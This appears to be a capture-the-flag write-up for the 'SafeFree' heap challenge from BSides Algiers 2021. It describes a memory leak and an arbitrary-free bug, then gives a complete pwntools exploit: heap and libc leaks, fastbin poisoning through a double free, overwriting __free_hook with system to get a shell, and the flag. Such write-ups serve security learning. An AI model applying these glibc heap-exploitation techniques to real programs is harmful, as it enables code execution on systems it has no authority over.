

# SafeFree

Note : When reversing the binary, i thought some restriction were there (that weren't actually there) which lead me<br>
to use a bit more complicated solution, please refere to
[Shellmates's original write-up](https://github.com/Shellmates/BSides-Algiers-2k21-Finals-chals/tree/main/pwn/safefree/solution) for the simpler intended solution 

# Description


# The confusion
I thought the allocate function was overwriting the first 16 bytes (forward and backward pointers) with null bytes after allocating heap memory to prevent us from leaking heap addresses, while in fact only the second 8 bytes (only the backward pointer) were overwritten with null bytes.
so basically the first part about leaking the heap address could've been avoided.

# Vulnerabilities
* The binary is using the read function which doesn't append a null-byte at the end of the input string which helps us leak memory addresses.<br>
* the safefree function attempts to free the pointer reference instead of the pointer itself giving us control over an arbitrary free,
which leads us to arbitrary write).<br>

# TL;DR

1 _ consolidate 2 fastchunks and leak heap address.<br>
2 _ consolidate 2 large chunks and leak main_arena address to calculate libc base address.<br>
3 _ double free a fastchunk to poinson the fastbin pointer to point to __free_hook.<br>
4 _ overwrite __free_hook with system address.<br>
5 _ free(bin_sh_pointer) //system("/bin/sh");<br>

# Solution

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./safefree_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.terminal = ['st']

def conn():
    if args.LOCAL:
        r = process(exe.path)
    else:
        r = remote("pwn.ctf.shellmates.club", 1502)

    return r

def allocate(io, size, data):
    io.sendlineafter(b"Choice", b"1")
    io.sendlineafter(b"Size", str(size))
    io.sendlineafter(b"Data", data)

def free(io, index):
    io.sendlineafter(b"Choice", b"2")
    io.sendlineafter(b"Index", str(index))

def safefree(io, index):
    io.sendlineafter(b"Choice", b"3")
    io.sendlineafter(b"Index", str(index))

def view(io, index):
    io.sendlineafter(b"Choice", b"4")
    io.sendlineafter(b"Index", str(index))

def leak(io):
    io.recvuntil(b"Data")
    io.recvline()
    return(u64(io.recvline(keepends=False).ljust(8, b'\0')))

def main():
    r = conn()

    log.info("Leaking heap address")
    
    #filling the tcachebin for size 0x10 and adding 2 fastchunks of the same size
    for i in range(9):
        allocate(r, 0x10, '')
    for i in range(9):
        free(r, i)
    
    #forcing fastbin consolidation by allocating a large chunk (in the consolidated space from the 2 fastchunks + top chunk)
    allocate(r, 0x410, 'a'*0x1f)

    #leaking fastbin pointer (from previous second fastbins)
    view(r, 0)
    fastbin = leak(r)
    log.info(f"fastbin at: {hex(fastbin)}")

    log.info("Leaking libc address")

    #allocating 2 more large chunks (the third chunk is to prevent consolidation with top chunk, it's size does't matter)
    allocate(r, 0x410, '')
    allocate(r, 0x410, '')

    #consolidation of the first and second large chunks
    free(r, 1)
    free(r, 0)

    #allocating a large chunk of a bigger size (in the consolidated space from the first and second large chunks)
    allocate(r, 0x430, 'a'*0x41f)
    view(r, 0)

    #leaking main_arena pointer (from previous second large chunk)
    libc.address = leak(r) - (libc.symbols['main_arena']+0x60)
    log.info(f"libc base address at: {hex(libc.address)}")

    #freeing all indexes just for simplifiying the exploit
    free(r, 2)
    free(r, 0)
    
    #filling the tcachebin for size 0x10 plus 2 fastchunks of the same size
    for i in range(9):
        allocate(r, 0x10, '')
    for i in range(9):
        free(r, i)

    #allocating a chunk of a different size (to not mess with tcache)
    allocate(r, 0x20, p64(fastbin+0x10))

    #double freeing the first fastchunk
    safefree(r, 0)

    #allocating 7 chunks to empty tcachebin (and using of them as a pointer argument to '/bin/sh' for system later)
    for i in range(7):
        allocate(r, 0x10, '/bin/sh')

    #poisoning the forward pointer of the double-freed fastchunk to point to __free_hook
    allocate(r, 0x10, p64(libc.symbols['__free_hook']))
    
    #allocating the 2 fastchunks (now __free_hook is at the head of the fastbin of size 0x10)
    for i in range(2):
        allocate(r, 0x10, '')
    
    #allocating a chunk overlaping with __free_hook and overwriting it with system address
    allocate(r, 0x10, p64(libc.symbols['system']))

    #system("/bin/sh");
    free(r, 1)

    r.interactive()

if __name__ == "__main__":
    main()
    #
```
# Flag
`shellmates{M4AAYb3_juSt_STIck_t0_tHE_OLD_WaYS}`

